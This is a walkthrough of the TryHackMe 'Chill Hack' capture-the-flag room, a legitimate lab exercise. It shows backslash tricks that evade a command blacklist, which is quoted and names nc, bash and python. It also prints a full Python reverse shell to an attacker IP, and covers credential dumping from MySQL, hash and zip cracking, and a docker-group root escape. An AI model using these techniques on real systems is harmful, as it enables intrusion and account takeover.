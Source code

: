 # Chill Hack CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chill Hack** CTF challenge on [TryHackMe](https://tryhackme.com/room/chillhack). 
---

scan

![scan](img/scan.png "scan")

found ftp server with anonymous login

![ftp](img/ftp.png "ftp")

got note.txt

![note](img/note.png "note")

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

found a lot of hidden folders with feroxbuster

![ferox](img/ferox.png "ferox")

`/secret` stands out from rest

we have some command execution, testing with id command (we are `www-data`)

![id](img/id.png "id")

after inputing `$ cat /etc/passwd` or `$ cd / ; ls` we are asked if we are hackers?  we know from that there is filtering on strings being put in commands

![hacker](img/hacker.png "hacker")

i tried few different techniques, `l\s` worked so ls is probably filtered, we also can use cd without filtering, `c\at index.php` also worked (I used BurpSuite)

we need to use `c\at index.php` to see source code

now we know exactly what commands are on blacklist: 

```php
$blacklist  = array('nc','python','bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

using `l\s /home` we know about users: `anurodh apaar aurick`

![home](img/home.png "home")

I also checked apaar home /folder with `l\s -la /home/apaar`

![homeapaar](img/homeapaar.png "homeapaar")

i tried diffrent reverse shells and this one worked for me (we have to change python3 to `p\ython3` because python3 is on blacklist) 

```
p\ython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
now we have shell as `www-data`

![wwwdata](img/wwwdata.png "wwwdata")

I ran linpeas to check for PE vector, we see that we can run `.helpline.sh` as apaar without password, this command sholud execute the script, then we need to specify a person (here we can input anything) and then we can input `/bin/bash` to spawn a shell as apaar

![sudol](img/sudol.png "sudol")

```
sudo -u apaar /home/apaar/.helpline.sh
```
we got user flag

![apaar](img/apaar.png "apaar")

i generated ssh key to make logging easier as apaar

```
$ ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
$ cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

i started looking around, decided to look into web page files to check if i missed something

in `/var/www/files` there is index.php file containing info about mysql login

![index](img/index.png "index")

used `mysql -u root -p` to log with provided password then

```
$ SHOW databases;
$ USE webportal;
$ SHOW tables;
$ SELECT * FROM users;
```
![sql](img/sql.png "sql")

used crackstation to crack hashes

![crack](img/crack.png "crack")

now i was stuck

i found info that i should use steganography

so i downloaded image `hacker-with-laptop[...].jpg` and used steghide without password

```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

we got `backup.zip` but its password protected i tried to use one from cracked hashes but didnt work so decided to crack with john

![john](img/john.png "john")

we got another password in file `cource_code.php` but first we need to decode from base64 `IWQwbnRLbjB3bVlwQHNzdzByZA==`

![sourcecode](img/sourcecode.png "sourcecode")

```
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```


finally we got access as anurodh

![anurodth](img/anurodth.png "anurodth")

i used linpeas once again and found that user anurodh is in docker group (95% PE factor) so i checked GTFObins, we can use this one-liner to gain root access

![linpeas](img/linpeas.png "linpeas")

![gtfo](img/gtfo.png "gtfo")

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

we gained root access and root flag

![root](img/root.png "root")

## MACHINE PWNED


